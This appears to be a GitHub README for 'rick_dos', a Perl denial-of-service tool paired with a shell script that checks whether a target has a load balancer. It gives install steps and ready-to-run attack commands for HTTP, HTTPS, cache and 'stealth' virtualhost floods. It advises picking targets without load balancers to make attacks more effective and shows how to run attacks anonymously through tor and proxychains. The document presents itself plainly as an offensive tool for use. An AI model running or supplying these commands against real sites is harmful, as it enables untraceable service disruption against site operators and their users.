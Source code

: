 # rick_dos and Load Balancer Check
Tool Write in Perl to Make Denial of Service and Verify if Site have Load Balancer write in shell script

I recomend use Linux to make attack, this tool make SYN flood on DNS

To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

#Install

```
git clone https://github.com/rickgds80/rick_dos.git

cd rick_dos
sudo chmod +x rickhack.pl rickhack_loadbalancer_check.sh
```

# dependencies
```
sudo apt-get install perl-doc
```

# usage:


**To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

Load Balancer Check:

usage: ./rickhack_loadbalancer_check.sh [domain]

Dont use http or https in name of domain

usage: ./rickhack_loadbalancer_check.sh example.com


```
./rickhack_loadbalancer_check.sh example.com
```

![image](https://user-images.githubusercontent.com/38327991/158487328-fa3be986-7ae3-4033-878b-869acc2d381f.png)


If the target has a load balancer it will appear like this:

![image](https://user-images.githubusercontent.com/38327991/158487613-a44542aa-3604-4147-9974-1d418e3487be.png)



For Help:
```
perldoc ./rickhack.pl
```

For testting the program:
```
./rickhack.pl -dns www.example.com -port 80 -test
```


For HTTP Dos Attack:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5
```

Attack with httpready:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready
```

Attack with stealth mode using virtualhost
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com
```

Attack on sites with HTTPS, SSL
```
./rickhack.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https
```

Attack with Cache
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache
```


# if you want executting the Attack in anonymous mode, you can combine with proxychains:

Install Dependencies:
```
sudo apt install tor
sudo apt install proxychains
```

Usage: 
tor and proxychains in front of rickhack.pl commands, like the example:
```
tor &
proxychains ./rickhack.pl -dns www.example.com -port 80 
```

![image](https://user-images.githubusercontent.com/38327991/158490018-1f08aa16-66f6-4645-b232-9e18a3a934ff.png)




# Glory to Ukraine!!!

![image](https://user-images.githubusercontent.com/38327991/158488171-b2d3fb1a-d100-4940-ac47-a9bd9dc0c2f0.png)
